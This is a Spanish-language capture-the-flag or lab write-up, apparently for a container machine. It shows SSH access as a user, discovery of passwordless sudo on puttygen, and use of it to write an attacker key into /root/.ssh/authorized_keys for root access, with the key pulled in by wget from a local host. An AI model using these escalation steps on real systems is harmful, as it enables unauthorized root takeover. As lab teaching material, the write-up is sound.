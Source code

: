```python
```

Se validó la información obtenida con un acceso a SSH:
```python
$ssh curiosito@asucar.dl
[...]
curiosito@185c8bd9fa1e:~$ pwd && ls -la
/home/curiosito
total 16
drwxr-xr-x 1 curiosito curiosito   88 May 12  2024 .
drwxr-xr-x 1 root      root        18 May 12  2024 ..
-rw------- 1 curiosito curiosito  362 May 12  2024 .bash_history
-rw-r--r-- 1 curiosito curiosito  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 curiosito curiosito 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 curiosito curiosito  807 Apr 23  2023 .profile
d-wxr-x--- 1 curiosito curiosito   42 May 12  2024 .ssh
```

## GanarControl
Como un inicio de escalación de privilegios, encontramos esto:
```python
curiosito@185c8bd9fa1e:~$ sudo -l
Matching Defaults entries for curiosito on 185c8bd9fa1e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User curiosito may run the following commands on 185c8bd9fa1e:
    (root) NOPASSWD: /usr/bin/puttygen
```

El exploit de SSH **CVE-2023-38408** es para `ssh-agent` con sockets y librerías maliciosas, pero como ya tenemos un acceso root indicado a través de `puttygen`.

PuTTYgen es una herramienta generadora de llaves para crear claves SSH públicas y privadas.[fuente](https://www.puttygen.com/)
Podemos aprovecar este binario para crear una clave SSH como root en `authorized_keys`.

Generamos una clave SSH: `$ssh-keygen -t rsa -b 2048 -f rootkey`.
- `rootkey` es la clave privada
- `rootkey.pub` es la clave pública

A través de un recurso compartido se subió la clave generada a la máquina víctima:
```python
curiosito@185c8bd9fa1e:~$ wget http://172.17.0.1:8000/rootkey
[...]
Saving to: 'rootkey'

rootkey              100%[=====================>]   1.78K  --.-KB/s    in 0s     
```

Se creó la clave pública en formato OpenSSH (válida para `authorized_keys`) usando `puttygen` como root. Para después procder con poner el archivo en el lugar correcto usando el mismo binario.
```python
curiosito@185c8bd9fa1e:~$ sudo /usr/bin/puttygen rootkey -O public-openssh -o authorized_keys
curiosito@185c8bd9fa1e:~$ ls
authorized_keys  key.pub  rootkey
curiosito@185c8bd9fa1e:~$ sudo /usr/bin/puttygen authorized_keys -O public-openssh -o /root/.ssh/authorized_keys
```

